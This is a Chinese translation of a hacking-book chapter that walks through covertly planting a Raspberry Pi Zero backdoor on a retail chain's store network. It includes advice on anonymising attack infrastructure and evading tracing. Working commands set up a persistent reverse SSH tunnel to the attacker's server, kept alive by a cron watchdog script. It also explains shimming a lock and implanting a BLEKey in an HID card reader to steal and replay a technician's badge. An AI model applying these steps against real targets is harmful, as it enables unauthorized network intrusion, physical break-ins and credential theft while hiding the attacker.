






# 整装待发

<b>
"人必须塑造他的工具，以免它们塑造他。"  --阿瑟·米勒(Arthur Miller) 
</b>

<br><br>


如前所述，这个想法是在吉布森鸟的许多商店之一种植一个小硬件后门。
此植入物将连接到我们的计算机，使我们能够远程访问他们的本地网络。我说"我们的电脑"，但它更多的是一个匿名服务器托管在互联网上某处。在我之前的书 - 《How to Hack Like a Pornstar》（参阅`https://github.com/xncoder/HackPornstar`） - 我详细介绍了一些常见的设置，用于渗透工作。不过，为了完整起见，我将简要回顾一些基本的预防措施。

## 多层方法
我们的攻击服务器，一个接收和发出所有攻击命令，是一个使用加密货币比特币租用的私人服务器，使其更难跟踪通过支付系统。

您可以在以下 URL 中找到可行供应商的列表（参考`http://cryto.net/~joepie91/bitcoinvps.html`）。我们将在后续文章内容称此机器为前置服务器（Front Gun Server）。它运行着一个KALI Linux发行版，这是一个专用的操作系统，附带许多渗透测试/黑客工具。


尽管他们公开同意不披露连接日志（以及其用户的源 IP 地址），但完全信任 VPN 提供商或 TOR 是可笑的。

这就是为什么避免使用家庭/大学/工作IP地址至关重要的原因。相反，更应该通过公共Wi-Fi（咖啡厅、火车站等）连接，以确保深度保护。


至于你的本地计算机，你可以选择一个易失性操作系统，它只存在于内存中且像USB插件式插入。这样，每次启动时，你都会重新启动，没有任何数据可以证明你有罪。所有从GibsonBird收集到的黑客工具和数据都只存在于前置服务器（Front Gun Server）上。

在下面的页面中，您可以学习创建一个“live USB”来运行任何Linux发行版(参阅`http://docs.kali.org/downloading/kali-linux-live-usb-install`)。TAILS和WHONIX操作系统在隐私领域取得了一些成功，但是任何Linux发行版都可以做到。

我们的攻击基础设施现在已经完全投入使用了——这是最简单的部分——让我们专注于硬件植入。

## 神奇的berry

### 为成功而购物
与大多数好莱坞电影中可能看到的相反，我们的硬件植入物不会是一英寸芯片，我们粘在某处黑暗的房间里的电缆上，尽管图像离现实不远。我们将依靠在DIY领域取得巨大成功并征服了许多科技爱好者的心的技术：树莓派（the Raspberry PI）。

树莓派是一个光秃秃的电路板，它包含了运行微型计算机的基本部件。它没有屏幕，键盘，鼠标，或任何其他花哨的附加组件，但我们将设法让它恰到好处的工作。


从技术上讲，我们可以使用任何模型（A、A+、B或0）(说明：当前树莓派版本可能已经有变化，具体参阅官网`https://www.raspberrypi.org/products/`)，主要区别在于大小和计算能力。

但为了隐蔽起见，我们会选择最小的一个称为PI 0：长66mm（2.5英寸），宽35mm（1.1英寸）。

PI 0有512MB的RAM和1Ghz的单核CPU。这看起来不算什么，但足以在一个价值数百万美元的品牌网络中造成严重破坏。


1、Micro-SD卡插槽。PI没有硬盘，所以我们需要插入一个包含要启动的操作系统的Micro SD卡。我们将选择Raspberry KALI版本，尽管理论上任何Linux发行版都可以。

2、微型USB为PI供电。

3、第二个微型USB接口，我们可以插入RJ45适配器，例如将PI连接到路由器。

总的来说，我们需要购买以下物品才能拥有一个功能齐全的后门：<br>
- 树莓 PI 0 （约5美元）<br>
- 微型 USB 以太网连接器 （约6美元）<br>
- 微型 USB 电源插头，如果您还没有电源插头（约3美元）<br>
- 16GB 微型 SD 卡 （约8美元）<br>
- 隐藏设备的硬黑色盖盒（约8美元）<br>

总共30美元（当前树莓派的版本和价格可能有变动，请参考官网`https://www.raspberrypi.org/`）！


### 准备启动
一旦我们有了所有的资料，我们就需要准备操作系统，以便在PI 0上运行。如前所述，我们将选择KALI Linux的ARM版本。它附带了执行任务所需的大多数黑客脚本和工具。

从官方网站（下载链接`https://www.offensive-security.com/kali-linux-arm-images/`）下载“.img”文件后，我们需要使用适当的成像工具将其写入SD卡。如果你的实验机在Windows上，Win32DiskImager(下载链接`https://sourceforge.net/projects/win32diskimager/`)就可以。
> 提示：在Linux上运行dmesg命令以了解分配给SD卡的设备名

刻录Kali映像会在SD卡上创建两个分区：
- 启动Kali的引导分区。
- 包含操作系统和未来数据的分区。这个分区的格式是EXT4，所以在Windows上看不到它。

从技术上讲，我们的SD卡包含一个运行正常的操作系统，当我们插入PI 0时，它将完美启动运行。

但是，由于我们没有键盘或监视器来跟踪引导过程并与机器交互，我们需要做一个小调整：我们需要确保SSH服务器在引导时启动！SSH代表Secure Shell并提供对Linux机器的远程访问。

我们将SD卡插入一台运行Linux发行版的机器（例如USB上的Live Ubuntu），然后在第二个分区中的“/etc/rc.local”文件中添加一行。

如前所述，此分区不能在Windows上查看，因此需要一个Unix风格的系统。
```
# Print the IP address
_IP=$(hostname -I) || true
if [ "$_IP" ]; then
 printf "My IP address is %s\n" "$_IP"
fi

# Add the following line to have SSH at boot
sudo /etc/init.d/ssh start
exit 0
```

就这样！一旦我们将PI Zero连接到电源，它将在几秒钟后自动引导并启动SSH服务器。

为了找到PI 0的地址，我们只需“ping”试验网段中的所有可用地址（在我的例子中是192.168.1.0/24）。

ping命令将向所有机器发送一个“hello”数据包，并等待答复以确定哪些机器正在运行。我们可以使用已经默认安装在Kali上的nmap。
```
root@lab:~# nmap -sP 192.168.1.0/24
Starting Nmap 7.01 ( https://nmap.org ) at 2017-03-08 20:27 CET
[…]
Nmap scan report for 192.168.1.19
Host is up (0.0032s latency).
MAC Address: 00:E0:4C:56:19:CD (Realtek Semiconductor)
[…]
```

一旦我们有了PI 0的IP地址，我们就可以在Linux上使用ssh命令或在Windows上使用putty(下载链接`https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html`)工具连接到它。默认凭据为root/toor：


我们显然要做的第一件事是更改密码和主机名，以便以后可以方便地进行操作：
```
root@kali:~ $ passwd
Changing password for root
(current) UNIX password: 
Enter new UNIX password: 
root@kali:~ $ echo 'PIspy' > /etc/hostname
root@kali:~ $ reboot
```

### 天空中的桥梁
PI 0的最终目的是“渗透”商店的本地网络，并让我们可以通过交互方式从前置服务器（Front Gun Server）发出命令。

我们高兴地看到，被认为是封闭的本地网络因此变成了开放的网络。

商店的本地网络可能与普通家庭网络非常相似。小型路由器（尽管可能更强大）将托管专用 IP 网段上的所有设备，并自动拒绝来自 Internet 的传入连接（即来自前置服务器）。但是，很可能允许传出连接！他们还能如何联系公司？

那么，这个想法是，不是直接连接到PI，而是像我们在上一章指出PI连接到前置服务器！我们可以使用许多工具和脚本组合来实现此目的：tgcd、metasploit、自定义脚本等。但是，我们将选择被动式解决方案：SSH。


***关于端口和服务的说明***<br>
*讨论TCP/IP端口和服务的一个小问题：internet是一堆相互连接的系统。<br>
每个系统可以承载不同的应用程序：web应用程序（例如网站）、远程控制系统的管理应用程序（SSH或RDP）、数据库（MySQL、SQL Server）等。
需要由远程系统寻址的每个应用程序都被分配到系统上可用的65535之内的端口。例如，系统将监视所有传入的请求，一旦看到提到端口80的请求，它将把请求路由到侦听该端口的应用程序，该端口通常是一个网站。对于 SSH，我们将在下面使用的服务，公共端口通常是 22。要列出当前侦听计算机上的端口，我们发出：netstat -an。*

SSH 有一个有趣的选项，它构建一个隧道连接两台计算机，或者更准确地说，两台计算机上的两个端口。在这种情况下，PI的本地22端口将与前置服务器上5555端口之间建立隧道：
```
root@PIspy:~ # ssh -nNT -R 5555:localhost:22 <FrontGun_IP>
root@<FrontGun_IP>’s password:
```

我们输入前置服务器的根密码以确认登录提示。

前置服务器上的5555端口现在连接到 PI 上的22端口 。对前置服务器上的5555端口 发出的任何请求将自动通过此隧道到达PI上的22端口（即 PI 上的 SSH 端口）！


因此，要通过 SSH 连接到 PI（即到达端口 22），我们只需连接到5555端口上的前置服务器即可。隧道将执行其余操作：
```
root@FrontGun:~ # ssh localhost:5555
```

此方案工作正常，但不能像在现实世界中那样使用：我们如何在 PI 上输入密码来建立隧道？

我们需要一种方法来自动化此第一个连接，而不会威胁前置服务器的安全性。（例如，删除根帐户的密码不是可行的解决方案...自动化此功能的一种方法是使用基于密钥的身份验证（另一种方法是下载并安装 sshpass 以在 SSH 命令中输入密码：` https://sourceforge.net/projects/sshpass/`）。

***关于公钥加密的说明***<br>
*公钥加密（或非对称加密）背后的理念是 1973 年试图解决一个简单的问题时出现：向未共享公共密码的人发送一条秘密消息。*

*其理念是为每个用户分配两个密钥：一个可以传达给第三方的公共 （E），另一个应受到严格保护的私有 （D）。这两个键有一个特殊的数学关系，这样一个键可以抵消另一个键。例如在RSA算法的例子中：任何消息幂（E\*D）在一个称为Z/nZ的特殊组中等于自己，其中n是一个非常大的数字：M^{E\*D} = M[n]。不必过于深入数学的深渊，即数字理论，我们就可以开始了解如何使用这个简单的属性来确认用户的身份。*

 *我们只需要让他们计算一个数字K，比如K=（服务器发送的随机M）^D。服务器知道它们的公钥，将计算K^E并检查结果是否确实是M，即服务器首先发送的数字。*

*该方案极度简化，没有涉及混合加密、密钥仪式、密钥交换、证书颁发机构等，因为它们对我们的案例学习并不重要*
> 注：对于RSA数学原理的详细描述可以参考一些中文文章。例如：`https://www.jianshu.com/p/a9a8d9eb7e4c`

非对称加密的第一步是为给定帐户生成公共/私钥对。在 PI 0上，我们使用 ssh-keygen命令为root帐户执行此类任务。
```
root@PIspy:~ # ssh-keygen -t rsa -b 2048
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
```

我们在前置服务器上下载id_rsa.pub 文件，并将公钥插入到PI 0的 /root/.ssh目录中的authorized_keys文件中：
```
root@FrontGun:~ # scp 192.168.1.19:/root/.ssh/id_rsa.pub ./id_pi.pub
root@FrontGun:~ # mkdir /root/.ssh
root@FrontGun:~ # cat id_pi.pub >> /root/.ssh/authorized_keys
```
我们从 PI 0 重试以前的转发操作，正如您所看到的，我们不再需要输入密码。
```
root@PIspy:~ # ssh -nNT -R 5555:localhost:22 <FrontGun_IP>
```

> 提示：我们第一次通过 ssh 连接到新机器时，我们会收到一个提示，要求保存机器的指纹。为了避免这种令人讨厌的消息，请添加选项"-o  StrictHostKeyChecking=no"，或只是接受一次，使其消失。

我们快到了。当然，最后一步是确保此 SSH 命令在启动时执行，并且每次我们因任何原因（不稳定的网络、突然的 Ctrl+C、胖手指综合征等）失去连接时都执行。

我们指示 Linux 上的任务调度程序 crontab 每 15 分钟执行一次监视脚本。脚本检查运行SSH 转发实例（基于 5555 关键字）;如果没有，它会再次尝试建立隧道。
监视脚本：
```
#!/bin/bash
if [[ $(ps -ef | grep -c 5555) -eq 1 ]]; then
/usr/bin/ssh -i /root/.ssh/id_rsa -nNT -R 5555:localhost:<FrontGun_PORT>
<FrontGun_IP>
fi
```

设置crontab调度：
```
root@PIspy:~ # crontab -e
*/15 * * * * /bin/bash /root/reload.sh
```

我们将 PI 插入实验室路由器并多次断开连接，以确保设置达到最终验证。

一旦我们确保一切尽可能顺利地运行，我们都准备好了，并准备找到个别商店，将我们的小硬件植入。

## 闯入
为了正确插入 PI，在吉布森鸟众多商店中的一家，我们需要一个开放的 RJ45 端口。商店通常分为两大类之一：
- 位于主要街道的大型高档商店。找到正确的位置插入 PI 可能相当棘手。通常，所有 IT设备（路由器和电缆）都位于不同楼层的封闭房间内。不是理想的目标。
- 商场里为临时时装展览而设的商店。这些商店往往拥有最少的家具和非常基本的设置：一台或两台电脑、一个媒体中心和隐藏在角落里的路由器。由于它们是暂时的，因此获悉正确的时间是关键。

选择第二类商店，我们去寻找商场广告吉布森鸟。很快，我们找到一个我们喜欢的！设置是基本的，正如预期的那样：两把椅子和一张小桌子，一台笔记本电脑，所有销售人员都共用。也有一些iPad可供选择。

我们很容易在包裹区域附近的左角发现一个空闲以太网端口。这可能是插入 PI 的一个不错的选择，但它不是理想的位置，因为任何人都可以看到 PI 悬空。<br>


由于一些商场的空间有限，而且显然需要打动顾客，GibsonBird将其路由器存储在一个连接到外墙的小盒子里。没有人愿意看着技术人员在试穿一套价值2万美元的西装时摆弄蓝色的电缆。

这个被高度关注的小盒子由 HID 读卡器保护：一种非接触式技术，可读取卡中的数据，并在识别卡号时打开锁。<br>


这个小木箱没有饰条盖住门和门框之间的裂缝。
我们可以很容易地在裂缝中插入一块薄的硬塑料，然后晃动它直到它进入锁闩后面。转到门把手有助于实现这一点。最后轻轻地向左一推，门就开了。

你可能需要几分钟才能让它弹出，所以一定要练习你的动作。

如果由于某种原因我们无法打开它-例如，锁被正确地封闭在孔中-并且我们无法访问商店内的以太网端口，我们只有一个选择：攻击读卡器！

流行的密钥卡（不是信用卡，请注意）有一个26位的数字，作为唯一的标识符或密码。第一位和最后一位用于奇偶校验。然后是一个8位的设备代码，通常是公司或同时创建的一批卡所独有的。最后，我们有16位的标识符，每个卡都有一个5位的唯一数字。


如果我们能猜到授权人员的设备代码和卡号，我们就可以复制卡并打开门。

一个有趣的事实是，大多数卡都是被动卡，这意味着它们在每次收到外部物理刺激时都会以明文形式自动传输这个号码：要么来自合法的读卡器，要么来自伪造的读卡器——比如，攻击者的安卓设备！

从合法的IT支持人员复制密钥卡可能是一项挑战，因为它需要适当的时间、物理接触和昂贵的材料（Proxmark III）。
> 注：Proxmark III是一款开源的RFID安全研究平台，由Jonathan Westhues设计并且开发的开源硬件，其主要用RFID的嗅探、读取以及克隆等的操作。具体可以参阅https://store.ryscc.com/products/new-proxmark3-kit。

因此，我们需要选择第二种方案：在读卡器中植入一小块硬件，在扫描时记录卡号，稍后按需重放。

两位安全研究人员在美国黑帽大会（Black Hat US， 参阅https://www.blackhat.com/docs/us-15/materials/us-15-Evenchick-Breaking-Access-Controls-With-BLEKey-wp.pdf）展示了一款名为BLEkey的工具(参考https://hackerwarehouse.com/product/blekey/)，售价35美元。<br>


我们在卸下前面板后拧下HID读卡器，然后简单地将BLEkey连接到三条特定的电线上：绿色（DATA0）、白色（DATA1）和黑色（GND）。

这些被称为Wiegand线，因为它们用于使用Wiegand协议将卡号传递给读卡器。与20世纪70年代设计的任何其他技术一样，它以明文形式传输数据，因此一旦上线，它就对所有人开放了。

你可以在下面的论文中查阅关于这个问题的全部研究。与此同时，我们把盖子盖上，去附近喝杯咖啡。


我们几个小时后回来，使用公共客户端（参阅https://github.com/linklayer/BLEKey/tree/master/client）通过蓝牙与HID阅读器内的BLEkey配对。我们指示它重放最后一个卡号（tx 0xFF指令）：几小时前刚修复一些电缆问题的授权技术人员的卡号。瞧，门开了！

一旦我们使用任何适合场景的技术打开盒子，我们所需要做的就是在一个开放的RJ45端口（以及一个电源插座）中插入PI 0，我们就可以走了！



> 翻译：Ryan 2020/2/17

